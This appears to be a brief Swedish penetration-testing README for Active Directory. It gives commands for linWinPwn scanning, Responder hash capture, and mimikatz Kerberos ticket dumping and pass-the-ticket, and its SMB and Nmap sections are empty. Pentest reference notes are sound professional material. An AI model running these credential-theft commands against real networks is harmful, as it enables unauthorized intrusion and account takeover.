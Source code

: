 # Gunnajs-Playbook
En svensk penetrationsvägvisare

## Tools bby

### linWinPwn - Active Directory Vulnerability Scanner
https://github.com/lefayjey/linWinPwn
### mimikatz
https://github.com/ParrotSec/mimikatz

# VEV

## linWinPwn 
```bash
sudo ./linWinPwn.sh -t <Domän_Kontrollant_IP> -u <AD_konto> -p <AD_lösen>
```

## Responder
```bash
responder -I eth0 -v
```

## Mimikatz
### Dump tickets
```bash
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
```
### Pass the ticket
```bash
mimikatz.exe
kerberos::ptt <ticket>
klist
```
## SMB VEV
## Nmap
